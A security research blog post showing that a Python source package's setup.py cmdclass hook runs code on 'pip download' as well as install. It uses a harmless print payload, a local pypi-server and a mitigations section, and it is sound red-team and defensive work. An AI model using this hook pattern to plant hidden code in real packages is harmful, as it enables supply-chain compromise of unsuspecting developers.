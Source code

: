 ```yaml
---
title: "Malicious Python Packages and Code Execution via pip download"
date: 2022-09-09T16:30:29-07:00
draft: true
tags: [
        "pentest", "red","research","supplychain"
    ]   

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Malicious Python Packages and Code Execution via pip download"
  description:  "Building and testing a malicious python package that triggers code execution when download with pip."
  image: "https://embracethered.com/blog/images/2022/pypi-server.png"
---
```


This week I learned about a design flaw with `pip download`, which allows an adversary to run arbitrary code. 

I assumed that running `pip install` means anything could happen, but `pip download` seems a bit surprising. 

Both seem useful for red teaming though.

## Background

This post from Yehuda Gelb named [Automatic Execution of Code Upon Package Download on Python Package Manager](https://medium.com/checkmarx-security/automatic-execution-of-code-upon-package-download-on-python-package-manager-cd6ed9e366a8) which the [Security Now! podcast](https://twit.tv/shows/security-now/episodes/887?autostart=false) pointed me towards. 

The post highlights that just running `pip download` can compromise your computer.

It turns out that this behavior is known since at least 2014, based on a pip Github issue named [Avoid generating metadata in pip download](https://github.com/pypa/pip/issues/1884) which raised this concern.

Let's investigate this more closely.

## Authoring a Python package

I had never built a python package before, but the process is well documented. There are different ways to go about it, and the vulnerability exists when using the older `setup.py` variation and when the package is in a `.tar.gz`.

There is a [basic project I put together on Github](https://github.com/wunderwuzzi23/this_is_fine_wuzzi/):

```
git clone https://github.com/wunderwuzzi23/this_is_fine_wuzzi
```

The key piece, which took a few minutes to figure out (stackoverflow is your friend), was to figure out how to specify a command to run. 

The way I went about it (not sure if there are others), is to include `cmdclass` in the setup, which causes pip to execute the provided command function upon both `download` and `install` of the package.

```
...
cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
...
```

My demo just runs a `print` command:

```
...
def RunCommand():
    print("Hello, p0wnd!")


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)
...
```

Now, we are good to go.


## Building the package

The next step is to bundle it up in a package, which is done using:

```
python -m build
```

This will create a `./dist/` folder containing the `wheel` and `tar.gz` files. 

For this demo exploit we are only interesting in the `tar.gz.` file.

In case you encounter errors building, make sure to have `setuptools` and `build` packages installed.


## Hosting the package using pypi-server

Now it's time to host the package on a server. 

To test this out, I decided to host the package on my own test `pypi-server`.

```
pypi-server run -v -p 8080 ./packages
```

Then copy the `tar.gz` file to your pypi-server's `./packages` folder.

![Hosting a package](/blog/images/2022/pypi-server.png)

Above screenshot shows how this looks once running.

## Download or Install the package

Using the `--index-url` it's possible to point `pip` to an alternate package server, which is what we can leverage to test this out:

```
pip download this_is_fine_wuzzi --index-url http://amstrad:8080 --trusted-host amstrad -v
```

And our code will run now as part of this. 

**Notes:** 
1. Messages printed to console won't be shown unless you specify `-v`.
2. The `--trusted-host` option was added because this was quick demo test. If you have a TLS connection with a valid certificate this will not be needed.

There are now tons of ways this can be abused, e.g. just thinking of Jupyter notebooks or Google Colab, etc.


## Mitigations 

The `setup.py` is only executed if the package is in `tar.gz` format. So, either reviewing the tar file or making sure there is a wheel file (`.whl`) present and used.

You can enumerate the offered packages via `https://packagemanager/simple/<package-name>`.

This way one can see what files are hosted for the package (tar or wheel, or both), and download (e.g. `wget`) and inspect the `tar.gz` file if that is the only option.


## Conclusions

Having a `pip download` execute arbitrary code is quite unexpected and easy to repro and perform for an attacker.
Make sure to inspect packages before you download or install them using `pip`. 


## References

* [Automatic Execution of Code Upon Package Download on Python Package Manager](https://medium.com/checkmarx-security/automatic-execution-of-code-upon-package-download-on-python-package-manager-cd6ed9e366a8)
* [Security Now! - Nearly 1/3 of the packages in PyPI trigger an automatic code execution upon download](https://twit.tv/shows/security-now/episodes/887?autostart=false)
* [this_is_fine_wuzzi repro package on Github](https://github.com/wunderwuzzi23/this_is_fine_wuzzi/)

